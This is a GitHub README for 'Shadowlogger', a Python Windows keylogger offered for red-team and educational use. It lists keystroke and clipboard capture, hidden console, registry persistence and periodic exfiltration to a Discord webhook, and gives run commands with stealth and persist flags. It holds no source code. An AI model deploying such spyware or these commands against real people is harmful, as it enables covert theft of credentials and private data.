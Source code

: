 # 🕵️ Shadowlogger

**Shadowlogger** is a lightweight, Python-based Windows keylogger and clipboard capture tool developed for **authorized Red Team simulations**, **cybersecurity research**, and **educational purposes only**.

> ⚠️ This tool is strictly for use in environments where you have **explicit permission**. Unauthorized usage is illegal and unethical.

---

## ✨ Features

- ✅ Logs keystrokes (including special keys like Enter, Shift, etc.)
- 📋 Captures clipboard data on `Ctrl + V` paste events
- 🌐 Optional exfiltration to a **user-supplied Discord webhook**
- 🛠️ Optional persistence via Windows registry (auto-run at startup)
- 👻 Optional stealth mode (hides the console window)
- 🔧 Fully configurable via command-line arguments (no hardcoded webhooks)
- 📦 Easy to extend, open-source


## ⚙️ Requirements

- Python 3.7+ (Windows only)
- Install dependencies with:

```bash
pip install -r requirements.txt
````

---

## 🚀 Usage

### 🔹 Basic Logging (no exfiltration)

```bash
python Shadowlogger.py
```

### 🔹 Remote Logging (Discord webhook)

```bash
python Shadowlogger.py --webhook https://discord.com/api/webhooks/your_webhook_url
```

### 🔹 With Stealth (no console window)

```bash
python Shadowlogger.py --webhook https://discord.com/api/webhooks/your_webhook_url --stealth
```

### 🔹 With Persistence (auto-start on boot)

```bash
python Shadowlogger.py --webhook https://discord.com/api/webhooks/your_webhook_url --stealth --persist
```

---

## 📤 What Gets Logged?

* Keystrokes → Saved in `syscache.log`
* Clipboard data → Saved in `clipdata.log`
* If webhook is passed, logs are sent every 5 minutes to your specified endpoint

---

## 🧠 Educational Use Cases

* Red Team simulation labs
* Malware behavior analysis
* Blue Team defense training
* Security awareness demos

---

## ❗️ Legal Disclaimer

This project is provided for:

* ✅ Educational purposes
* ✅ Ethical hacking training
* ✅ Authorized Red Teaming only

> ❌ The author does **not condone** illegal activity and is **not responsible** for misuse of this software.

---

## 🙌 Credits

Developed by \[Syed Sharjeel Zaidi]

GitHub:(https://github.com/syedsharjeelshah)
...
